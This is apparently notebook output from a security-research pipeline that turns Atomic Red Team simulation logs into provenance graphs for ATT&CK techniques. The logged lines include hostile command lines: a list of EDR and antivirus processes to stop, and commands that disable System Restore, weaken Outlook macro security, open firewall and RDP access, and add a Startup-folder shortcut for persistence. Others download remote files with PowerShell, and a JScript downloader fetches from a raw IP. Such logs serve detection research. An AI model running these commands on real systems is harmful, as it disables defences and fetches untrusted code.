20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 26%|██▌       | 43/165 [11:44<05:00,  2.46s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 27%|██▋       | 44/165 [11:46<04:50,  2.40s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 27%|██▋       | 45/165 [11:49<04:47,  2.40s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 28%|██▊       | 46/165 [11:51<04:41,  2.36s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 28%|██▊       | 47/165 [11:53<04:15,  2.16s/it]

Number of relations in the graph: 13
280797 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level"_/t_REG_DWORD_/d_1_/f_&&_mkdir__%APPDATA%\Microsoft\Outlook\_>nul_2>&1_&&_echo_"Atomic_Red_Team_TEST"_>_%APPDATA%\Microsoft\Outlook\VbaProject.OTM&C:\Windows\system32\cmd.exe&cmd.exe&6424
788972 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level"_/t_REG_DWORD_/d_1_/f_&C:\Windows\system32\reg.exe&reg.exe&3472
646113 : C:\Users\ezk\AppData\Roaming\Microsoft\Outlook
719232 : C:\Users\ezk\AppData\Roaming\Microsoft\Outlook\VbaProject.OTM
776716 : HKCU\Software\Microsoft\Office\16.0\Outlook\Security\Level
../graph_benign2/T1137_12ad9edefc86af07700fbf49bfdac6ba.png has been generated!
T1562.001_43e3334362b140924f001b256b229ee5


<Figure size 432x288 with 0 Axes>



 29%|██▉       | 48/165 [11:55<04:03,  2.08s/it]

Number of relations in the graph: 12
246987 : "C:\Program_Files\Google\Chrome\Application\chrome.exe"_--type=utility_--utility-sub-type=quarantine.mojom.Quarantine_--lang=zh-TW_--service-sandbox-type=none_--mojo-platform-channel-handle=5480_--field-trial-handle=1956,i,14215670733478253885,12070691624263948935,131072_/prefetch:8&C:\Program_Files\Google\Chrome\Application\chrome.exe&chrome.exe&9980
240283 : HKLM\SOFTWARE\Policies\Microsoft\Windows_Defender\DisableAntiSpyware
212004 : C:\Windows\Explorer.EXE&C:\Windows\Explorer.EXE&Explorer.EXE&5708
453229 : powershell.exe_-ExecutionPolicy_Restricted_-Command_Write-Host_'Final_result:_1';&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9248
28430 : C:\Windows\System32\sdiagnhost.exe_-Embedding&C:\Windows\System32\sdiagnhost.exe&sdiagnhost.exe&5168
../graph_benign2/T1562.001_43e3334362b140924f001b256b229ee5.png has been generated!
T1074.001_e6dfc7e89359ac6fa6de84b0e1d5762e


<Figure size 432x288 with 0 Axes>



 30%|██▉       | 49/165 [11:56<03:47,  1.96s/it]

Number of relations in the graph: 12
543224 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$url_=_'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1566.001/bin/PhishingAttachment.xlsm';_[Net.ServicePointManager]::SecurityProtocol_=_[Net.SecurityProtocolType]::Tls12;_Invoke-WebRequest_-Uri_$url_-OutFile_$env:TEMP\PhishingAttachment.xlsm"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&8824
367332 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-109-133.github.com:https
422515 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Invoke-WebRequest_\"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat\"_-OutFile_$env:TEMP\discovery.bat"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11028
524797 : C:\Users\ezk\AppData\Local\Temp\discovery.bat
../graph_benign2/T1074.001_e6dfc7e89359ac6fa6de84b0e1d5762e.png has been generated!
T1566.001_1afaec09315ab71fdfb167175e8a019a


<Figure size 432x288 with 0 Axes>



 30%|███       | 50/165 [11:58<03:32,  1.85s/it]

Number of relations in the graph: 12
422515 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Invoke-WebRequest_\"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat\"_-OutFile_$env:TEMP\discovery.bat"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11028
367332 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-109-133.github.com:https
543224 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$url_=_'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1566.001/bin/PhishingAttachment.xlsm';_[Net.ServicePointManager]::SecurityProtocol_=_[Net.SecurityProtocolType]::Tls12;_Invoke-WebRequest_-Uri_$url_-OutFile_$env:TEMP\PhishingAttachment.xlsm"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&8824
40538 : C:\Users\ezk\AppData\Local\Temp\PhishingAttachment.xlsm
../graph_benign2/T1566.001_1afaec09315ab71fdfb167175e8a019a.png has been generated!
T1562.004_41627f71f968225b9f162cb76d16bd9d


<Figure size 432x288 with 0 Axes>



 31%|███       | 51/165 [12:00<03:23,  1.78s/it]

Number of relations in the graph: 11
478900 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Copy-Item_f7ce09_AtomicTest.exe_-Destination_\"C:\Users\$env:UserName\"_-Force;_netsh_advfirewall_firewall_add_rule_name=\"Atomic_Test\"_dir=in_action=allow_program=\"C:\Users\$env:UserName\AtomicTest.exe\"_enable=yes"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10792
656346 : C:\Windows\System32\f7ce09_AtomicTest.exe
296769 : C:\Users\ezk\f7ce09_AtomicTest.exe
549660 : "C:\Windows\system32\netsh.exe"_advfirewall_firewall_add_rule_"name=Atomic_Test"_dir=in_action=allow_program=C:\Users\ezk\AtomicTest.exe_enable=yes&C:\Windows\system32\netsh.exe&netsh.exe&10752
../graph_benign2/T1562.004_41627f71f968225b9f162cb76d16bd9d.png has been generated!
T1105_0856c235a1d26113d4f2d92e39c9a9f8


<Figure size 432x288 with 0 Axes>



 32%|███▏      | 52/165 [12:01<03:16,  1.74s/it]

Number of relations in the graph: 11
141662 : powershell.exe_-ExecutionPolicy_Bypass_-C_"(New-Object_Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt')_|_Out-File_LICENSE.txt;_Invoke-Item_LICENSE.txt"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3760
592840 : C:\Windows\System32\LICENSE.txt
56231 : C:\Windows\System32\LICENSE.txt:Zone.Identifier
260077 : "C:\Windows\system32\NOTEPAD.EXE"_C:\Windows\system32\LICENSE.txt&C:\Windows\system32\NOTEPAD.EXE&NOTEPAD.EXE&10068
../graph_benign2/T1105_0856c235a1d26113d4f2d92e39c9a9f8.png has been generated!
T1021.001_dd67068b052fa553ad4a0ac7d6a5ea89


<Figure size 432x288 with 0 Axes>



 32%|███▏      | 53/165 [12:03<03:12,  1.72s/it]

Number of relations in the graph: 10
215640 : C:\Windows\system32\wbem\wmiprvse.exe&C:\Windows\system32\wbem\wmiprvse.exe&wmiprvse.exe&976
788945 : HKLM\System\CurrentControlSet\Control\Terminal_Server\WinStations\RDP-Tcp
212067 : HKLM\System\CurrentControlSet\Control\Terminal_Server\WinStations\RDP-Tcp\PortNumber
351062 : cmd.exe_/C_reg_add_"HKLM\System\CurrentControlSet\Control\Terminal_Server\WinStations\RDP-Tcp"_/v_PortNumber_/t_REG_DWORD_/d_4489_-f_&&_netsh_advfirewall_firewall_add_rule_name="RDPPORTLatest-TCP-In"_dir=in_action=allow_protocol=TCP_localport=4489&C:\Windows\system32\cmd.exe&cmd.exe&4984
328761 : reg__add_"HKLM\System\CurrentControlSet\Control\Terminal_Server\WinStations\RDP-Tcp"_/v_PortNumber_/t_REG_DWORD_/d_4489_-f_&C:\Windows\system32\reg.exe&reg.exe&8936
../graph_benign2/T1021.001_dd67068b052fa553ad4a0ac7d6a5ea89.png has been generated!
T1490_c8f329d2847ede593b6cb4a1ec6120fb


<Figure size 432x288 with 0 Axes>



 33%|███▎      | 54/165 [12:05<03:30,  1.89s/it]

Number of relations in the graph: 10
307887 : cmd.exe_/C_reg_add_"HKLM\SOFTWARE\Policies\Microsoft\Windows_NT\SystemRestore"_/v_"DisableConfig"_/t_"REG_DWORD"_/d_"1"_/f_&&_reg_add_"HKLM\SOFTWARE\Policies\Microsoft\Windows_NT\SystemRestore"_/v_"DisableSR"_/t_"REG_DWORD"_/d_"1"_/f_&&_reg_add_"HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\SystemRestore"_/v_"DisableConfig"_/t_"REG_DWORD"_/d_"1"_/f_&&_reg_add_"HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\SystemRestore"_/v_"DisableSR"_/t_"REG_DWORD"_/d_"1"_/f&C:\Windows\system32\cmd.exe&cmd.exe&4752
579006 : reg__add_"HKLM\SOFTWARE\Policies\Microsoft\Windows_NT\SystemRestore"_/v_"DisableConfig"_/t_"REG_DWORD"_/d_"1"_/f_&C:\Windows\system32\reg.exe&reg.exe&5948
714485 : reg__add_"HKLM\SOFTWARE\Policies\Microsoft\Windows_NT\SystemRestore"_/v_"DisableSR"_/t_"REG_DWORD"_/d_"1"_/f_&C:\Windows\system32\reg.exe&reg.exe&5700
713188 : reg__add_"HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\SystemRestore"_/v_"DisableConfig"_/t_"REG_DWORD"

<Figure size 432x288 with 0 Axes>



 33%|███▎      | 55/165 [12:07<03:23,  1.85s/it]

Number of relations in the graph: 10
7381 : powershell.exe_-ExecutionPolicy_Bypass_-C_"cmd.exe_/c_\"net_user\"_>>_C:\Windows\temp\history.log;cmd.exe_/c_\"whoami_/priv\"_>>_C:\Windows\temp\history.log;cmd.exe_/c_\"netstat_-ano\"_>>_C:\Windows\temp\history.log;"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2340
715325 : C:\Windows\Temp\history.log
395071 : "C:\Windows\system32\cmd.exe"_/c_"net_user"&C:\Windows\system32\cmd.exe&cmd.exe&5004
591883 : "C:\Windows\system32\cmd.exe"_/c_"whoami_/priv"&C:\Windows\system32\cmd.exe&cmd.exe&5204
73379 : "C:\Windows\system32\cmd.exe"_/c_"netstat_-ano"&C:\Windows\system32\cmd.exe&cmd.exe&10716
../graph_benign2/T1059.001_55678719-e76e-4df9-92aa-10655bbd1cf4.png has been generated!
T1204.002_522f3f35cd013e63830fa555495a0081


<Figure size 432x288 with 0 Axes>



 34%|███▍      | 56/165 [12:09<03:13,  1.77s/it]

Number of relations in the graph: 10
771892 : cmd.exe_/C_echo_var_url_=_"https://128.30.52.100/TR/PNG/iso_8859-1.txt",_fso_=_WScript.CreateObject('Scripting.FileSystemObject'),_request,_stream;_request_=_WScript.CreateObject('MSXML2.ServerXMLHTTP');_request.open('GET',_url,_false);_request.send();_if_(request.status_===_200)_{stream_=_WScript.CreateObject('ADODB.Stream');_stream.Open();_stream.Type_=_1;_stream.Write(request.responseBody);_stream.Position_=_0;_stream.SaveToFile(filename,_1);_stream.Close();}_else_{WScript.Quit(1);}WScript.Quit(0);_>_%TEMP%\OSTapGet.js_&&_cscript_//E:Jscript_%TEMP%\OSTapGet.js&C:\Windows\system32\cmd.exe&cmd.exe&3616
307080 : C:\Users\ezk\AppData\Local\Temp\OSTapGet.js
687242 : cscript__//E:Jscript_C:\Users\ezk\AppData\Local\Temp\OSTapGet.js&C:\Windows\system32\cscript.exe&cscript.exe&5992
../graph_benign2/T1204.002_522f3f35cd013e63830fa555495a0081.png has been generated!
T1547.009_501af516bd8b24fee0c7c650ae5cc861


<Figure size 432x288 with 0 Axes>



 35%|███▍      | 57/165 [12:10<03:05,  1.72s/it]

Number of relations in the graph: 10
737071 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$Shell_=_New-Object_-ComObject_(\"WScript.Shell\");_$ShortCut_=_$Shell.CreateShortcut(\"$env:APPDATA\Microsoft\Windows\Start_Menu\Programs\Startup\T1547.009.lnk\");_$ShortCut.TargetPath=\"cmd.exe\";_$ShortCut.WorkingDirectory_=_\"C:\Windows\System32\";_$ShortCut.WindowStyle_=_1;_$ShortCut.Description_=_\"T1547.009.\";_$ShortCut.Save();_$Shell_=_New-Object_-ComObject_(\"WScript.Shell\");_$ShortCut_=_$Shell.CreateShortcut(\"$env:ProgramData\Microsoft\Windows\Start_Menu\Programs\Startup\T1547.009.lnk\");_$ShortCut.TargetPath=\"cmd.exe\";_$ShortCut.WorkingDirectory_=_\"C:\Windows\System32\";_$ShortCut.WindowStyle_=_1;_$ShortCut.Description_=_\"T1547.009.\";_$ShortCut.Save()"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&1392
558899 : C:\Users\ezk\AppData\Roaming\Microsoft\Windows\Start_Menu\Programs\Startup\T1547.009.lnk
475985 : C:\Users\ezk\AppData\Roaming\Microsoft\Windows

<Figure size 432x288 with 0 Axes>



 35%|███▌      | 58/165 [12:12<03:00,  1.69s/it]

Number of relations in the graph: 9
362145 : attrib.exe__+s_C:\Users\ezk\AppData\Local\Temp\T1564.001.txt&C:\Windows\system32\attrib.exe&attrib.exe&7128
55571 : C:\Users\ezk\AppData\Local\Temp\T1564.001.txt
88525 : cmd.exe_/C_attrib.exe_+h_%temp%\T1564.001.txt&C:\Windows\system32\cmd.exe&cmd.exe&8904
